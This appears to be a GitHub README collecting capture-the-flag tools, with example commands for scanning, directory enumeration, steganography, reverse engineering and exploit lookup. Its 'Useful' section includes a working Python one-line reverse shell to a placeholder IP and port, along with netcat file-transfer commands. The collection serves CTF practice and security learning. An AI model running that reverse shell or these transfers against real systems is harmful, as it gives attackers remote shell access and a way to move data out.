 # CTF-tools
Collection of useful tools for CTFs.


## Categories
  - [Web](#web)
  - [Crypto](#crypto)
  - [Steganography](#Steganography)
  - [Binary/Reverse](#binary/reverse)
  - [Other](#other)
  - [Useful](#useful)
  - [to update]

---

## Web

* nmap
```
Example usage : sudo nmap -sS -A -T4 <ip_target> -oN <name_output> -vv
```
* gobuster
```
Example usage for directory/file enum :
                gobuster dir -u <ip_target> --wordlist <path_to_wordlist> -x <extensions>
  where:  * path_to_wordlist can be something like "/usr/share/wordlists/<wordlist>"
          * extensions like php, txt, js, cgi, sh, ...
```
* dirb
* curl
* nikto
```
Example usage: nikto -h <ip_target>
```
* wpscan
* wget 
```
Example usage: wget <url>
```

---

## Crypto

* [CyberChef](https://gchq.github.io/CyberChef/)

---

## Steganography

* steghide
```
Example usage: steghide <command> <file>
  where command can be:   > info
                          > extract 
                          > embed 
```
* [Stegosolve](http://www.caesum.com/handbook/Stegsolve.jar)
* exif
* exiftool
* binwalk

---

## Binary/Reverse

* checksec
* strings
* ltrace
* strace
* frida
* gdb / gdb-peda
* hexdump (-C option very useful)
* objdump
* apktool
* Jadx -- Java decompiler 

---

## Other

* nc -- TCP/IP swiss army knife
* linpeas.sh -- for Linux Privesc
* sudo -l -- to get which files I can run with sudo
* searchsploit -- search through Exploit db archive
```
Example usage: searchsploit OpenSSH 7.2p2
               searchsploit -p 46635  -- it returns the URL of the CVE in exploit db
```
* msfconsole -- the god tool for exploitation


---



## Useful

* sending a file using nc:
```
    client side : nc -lvp <port> > <file>
    server side : nc <ip_server> <port_server> < <file>
```
* sending a file using nc + wget:
```
    client side : nc -lvp <port> < <file>
    server side : wget <ip_server>:<port_server>/<file>

!! [NOTE: protocol will continue after transmission of file (maybe because client side does not receive CRLF sequence). So after a while, just press CTRL+c et voit-là] 
```
* to convert a python script from v.2 to v.3
```
    python3 -m lib2to3 <script>.py -w
```
* connect to server pop3 (port 110) using telnet:
```
    telnet <ip> 110
```
* reverse shell with one line only, using python3:
```
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* run a simple python3 server:
```
    python -m http.server
```
* create a generic ssl/tls client which establishes a connection to a remote server speaking ssl/tls.
```
Example:    openssl s_client -connect <ip_address>:<port>
    If all it is ok, paste the password and it’s done.
```
* append to a file data: 
```
Example usage: printf "<data>" |cat - <file> > <file_out>
    where data is something like "\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00"
```
* [PEM Parser](https://8gwifi.org/PemParserFunctions.jsp)

---




# Contributors

- Francesco Varotto - [@frarotto](https://github.com/francevarotz98/)
- Massimiliano Belluomini - [@massibelluomini](https://github.com/massibelluomini)
